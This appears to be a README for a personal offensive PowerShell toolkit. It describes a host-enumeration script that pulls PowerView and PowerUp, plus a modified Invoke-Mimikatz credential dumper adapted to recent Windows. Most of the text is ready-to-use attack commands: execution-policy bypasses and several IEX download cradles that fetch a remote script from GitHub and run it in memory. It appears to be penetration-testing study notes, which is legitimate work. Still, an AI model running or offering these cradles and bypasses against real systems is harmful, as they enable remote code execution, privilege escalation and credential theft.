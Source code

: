 ```1.ps1``` does basic enumeration of host and pulls down Powerview and PowerUp modules from their original source and attempts to load as modules.

```Invoke-Mimikatz_MOD.ps1``` has been modded to execute on recent Windows versions based on - https://github.com/mitre/caldera/issues/38#issuecomment-396055260

# Bypass EP
Start PowerShell from cmd.exe:

```powershell.exe -ep bypass```

If already running:

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass```

```Set-ExecutionPolicy -Scope Process -ExecutionPolicy Restricted```

```$Env:PSExecutionPolicyPreference = 'Bypass'```


# Run Script cradles

```iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")```

```IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content```



```IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')```

```IEX ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content```



# Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
